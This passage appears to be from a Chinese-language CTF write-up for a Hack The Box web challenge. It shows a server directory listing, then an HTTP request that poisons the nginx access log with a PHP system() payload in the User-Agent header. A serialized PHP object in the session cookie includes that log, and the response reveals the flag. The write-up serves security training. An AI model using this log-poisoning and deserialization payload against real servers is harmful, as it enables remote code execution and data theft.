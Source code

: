         * 响应体

          ```shell
          drwxr-xr-x    2 root     root          4096 Apr 14 10:25 bin
          drwxr-xr-x    5 root     root           360 May 10 03:56 dev
          -rw-------    1 root     root           179 Apr 30 15:46 entrypoint.sh
          drwxr-xr-x    1 root     root          4096 May 10 03:56 etc
          -rw-r--r--    1 root     root            31 Apr 30 15:29 flag_JAAyt
          drwxr-xr-x    1 root     root          4096 Apr 19 06:09 home
          drwxr-xr-x    1 root     root          4096 Apr 14 10:25 lib
          drwxr-xr-x    5 root     root          4096 Apr 14 10:25 media
          drwxr-xr-x    2 root     root          4096 Apr 14 10:25 mnt
          drwxr-xr-x    2 root     root          4096 Apr 14 10:25 opt
          dr-xr-xr-x  350 root     root             0 May 10 03:56 proc
          drwx------    2 root     root          4096 Apr 14 10:25 root
          drwxr-xr-x    1 root     root          4096 May 10 03:56 run
          drwxr-xr-x    2 root     root          4096 Apr 14 10:25 sbin
          drwxr-xr-x    2 root     root          4096 Apr 14 10:25 srv
          dr-xr-xr-x   13 root     root             0 Feb  8 07:09 sys
          drwxrwxrwt    1 root     root          4096 May 10 03:56 tmp
          drwxr-xr-x    1 root     root          4096 Apr 30 15:46 usr
          drwxr-xr-x    1 root     root          4096 Apr 30 15:46 var
          drwxr-xr-x    4 root     root          4096 Apr 30 16:27 www
          ```

        * 读取flag_JAAyt

          ```http
          GET / HTTP/1.1
          
          Host: 206.189.121.131:31906
          User-Agent: <?php system('cat /flag_JAAyt');?>
          Accept-Language: en-US,en;q=0.5
          Accept-Encoding: gzip, deflate
          Connection: close
          Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==
          Upgrade-Insecure-Requests: 1
          Cache-Control: max-age=0
          ```

        * 响应体

          ```tex
          206.189.121.131 - 400 "GET / HTTP/1.1" "-" "-" 
          206.189.121.131 - 400 "GET / HTTP/1.1" "-" "-" 
          206.189.121.131 - 400 "GET / HTTP/1.1" "-" "-" 
          206.189.121.131 - 400 "GET / HTTP/1.1" "-" "-" 
          206.189.121.131 - 400 "GET / HTTP/1.1" "-" "-" 
          206.189.121.131 - 400 "GET / HTTP/1.1" "-" "-" 
          206.189.121.131 - 200 "GET / HTTP/1.1" "-" "HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}
          ```


